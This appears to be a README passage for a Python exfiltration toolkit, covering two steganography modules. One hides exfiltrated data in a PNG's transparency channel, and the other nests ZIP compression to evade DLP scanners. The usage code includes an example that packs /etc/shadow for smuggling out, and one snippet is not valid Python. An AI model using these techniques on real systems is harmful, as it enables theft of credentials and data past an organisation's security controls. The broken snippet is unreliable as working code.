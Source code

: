 #### PNG Transparency
This little nifty module will take a PNG image file and embed the data you want to exfiltrate as the transparency bit (4th). It does mean that the image file needs to be big enough for large sets of data but for rapid-short-burst communication it can be very useful.

```python
#!/usr/bin/env python3

from pyexfil.Stega.png_transparency import Encode, Decode

encodingWrapper = Encode(key="ABC123456", data="Secret Secret Data")
encodingWrapper.Run()

decodingWrapper = Decode(key="ABC123456", file_path='output.png')
print(decodingWrapper.Run())
```

#### ZIP Loop
This module is not specifically for steganography but was put here as it is the best fit. The idea is that many DLP scanners will not pass beyond the 1k iterations of decompressing ZIP files to avoid overhead. This uses a big random number of iterations resulting in a significantly larger output that should go unnoticed by some DLP mechanisms.

```python3

from pyexfil.Stega.zipception import Broker, Sender

a = Sender(folder_path="/etc/shadow", key=Sender.PYEXFIL_DEFAULT_PASSWORD, Sender.iterations=NUMBER_OF_ITERATIONS)
a.Run()

b = Broker("False.zip", key=Broker.PYEXFIL_DEFAULT_PASSWORD)
b.Run()

```
